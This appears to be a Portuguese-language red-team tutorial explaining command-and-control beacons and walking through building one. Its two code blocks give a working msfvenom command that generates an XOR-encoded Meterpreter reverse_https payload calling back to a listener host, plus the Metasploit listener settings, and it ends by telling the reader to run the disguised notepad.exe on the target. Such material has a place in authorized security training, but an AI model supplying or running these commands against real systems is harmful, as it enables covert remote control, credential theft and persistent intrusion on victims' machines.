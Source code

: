 
As comunicações de comando e controlo (C&C ou C2) representam interações maliciosas estabelecidas entre um servidor de controlo e um sistema comprometido. O elemento responsável por estabelecer esta ligação, geralmente um ficheiro ou processo malicioso presente na máquina infetada, é conhecido como beacon C2.

Imaginemos um cenário realista: um utilizador recebe um e-mail de phishing e, ao clicar no anexo (um ficheiro `.doc` malicioso), executa sem saber uma macro embutida. Esta macro faz o download de um ficheiro `.exe` alojado num servidor controlado por um atacante. Uma vez executado, esse `.exe` estabelece uma ligação remota com o servidor do atacante, garantindo-lhe acesso persistente à máquina comprometida.

Este ficheiro `.exe`, que mantém comunicações periódicas com o servidor C2, é conhecido como **beacon C2**. 

Embora semelhante a um shell reverso, um beacon C2 vai muito além: 
Integra funcionalidades como elevação de privilégios, movimentação lateral, captura de credenciais e execução modular de comandos. 

Frameworks como **Metasploit**, **Empire**, **Cobalt Strike**, **Sliver**, entre outros, são frequentemente utilizados por equipas de Red Team e por adversários reais para este tipo de operação.

#### Criação de um Beacon C2 com o `msfvenom`

A ferramenta `msfvenom` é parte integrante do **Metasploit Framework** e permite gerar cargas maliciosas (payloads) personalizadas. 

```python
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.4 LPORT=443 -f c -e x64/xor_dynamic -b "\x00"


```


#### Explicação dos parâmetros:

- `-e x64/xor_dynamic`: aplica encoding XOR dinâmico.
    
- `-b "\x00"`: evita caracteres nulos.
    
- Usa `reverse_https` para aumentar stealth e bypass de proxies/firewalls.

![](../anexos/Pasted%20image%2020250503113019.png)

#### Configuração do Listener no Metasploit

No terminal do Metasploit (`msfconsole`), configura-se o listener:

```python
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.4
set LPORT 443
set ExitOnSession false
set EnableStageEncoding true
```

![](../anexos/Pasted%20image%2020250422213710.png)


##### Próximo passo

Agora só falta executar o `notepad.exe` na máquina alvo (Windows) para que a sessão Meterpreter seja iniciada. 

